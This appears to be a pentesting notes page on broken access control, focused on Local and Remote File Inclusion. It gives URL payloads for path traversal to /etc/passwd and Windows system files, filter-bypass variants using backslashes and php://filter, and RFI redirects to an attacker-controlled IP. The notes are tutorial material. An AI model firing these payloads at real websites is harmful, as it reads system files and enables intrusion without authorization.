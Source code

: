 # Broken Access Control

It is when a user can see or do things they aren't supposed to. The most common ways in wich it's presented are:

* **IDOR:** Insecure Direct Object Reference, when an application fail to secure access to restringed data to an user
* **Weak authorization:** Fail to protect sensitive content. Example: Secure admin page with a readable cookie
* **Security through obscurity:** Try to hide secret information in paths that seems  not to be visible.
* **File Inclusion:** Setting routes via URL to access system files or redirecting to another pages



## <mark style="color:green;">Local File Inclusion</mark>

Also known as LFI, able to get a website to include a file that was not intended to be an option for this application

* Check if parameters in URL recieve name of a file

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Its searching for a file
http://$url/$query?$param=hola.php
#We can try to access to system important files
www.ddd.com/sss?file=/etc/passwd
```
{% endcode %}

***

* When can't be done directly try to get to root folder

{% code overflow="wrap" lineNumbers="true" %}
```bash
#We use ../ to get to the root directory
http://$url/$query?$param=../../../../../etc/passwd

#Same can be done in windows
http://$url/$query?$param=../../../../../../WINDOWS/system32/drivers/etc/hosts
#Common file for save host name and ip in windows
```
{% endcode %}

{% hint style="info" %}
Use as many ../ as posible to get to root floder
{% endhint %}

***

* In some cases try to check page code to see conditions of the input

{% code overflow="wrap" lineNumbers="true" %}
```bash
#The code is searching for a file that starts with file
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {

http://$url/$query?$param=file/../../../../etc/passwd

#The code is replacing ../, we can use \ to skip check
$file = str_replace( array( "../", "..\\" ), "", $file );

http://$url/$query?$param=..\/..\/..\/..\/etc/passwd
```
{% endcode %}

***



## <mark style="color:green;">Remote File Inclusion</mark>

Also known as RFI, it is possible for an attacker to redirect actions to or from a another server

* Redirect actions of a server via URL parameters

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">#Its searching for a file
http://$url/$query?$param=hola.php
<strong>#Redirection to another site
</strong>http://$url/$query?$param=http://$url
#Redirection to a local server
http://$url/$query?$param=//$myip
</code></pre>

***

* When can use another method or conection

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Code is blocking hhtp
$file = str_replace( array( "http", "https" ), "", $file );
#We can use another php conection
http://$url/$query?$param=php://filter/resource=/etc/passwd
```
{% endcode %}

***

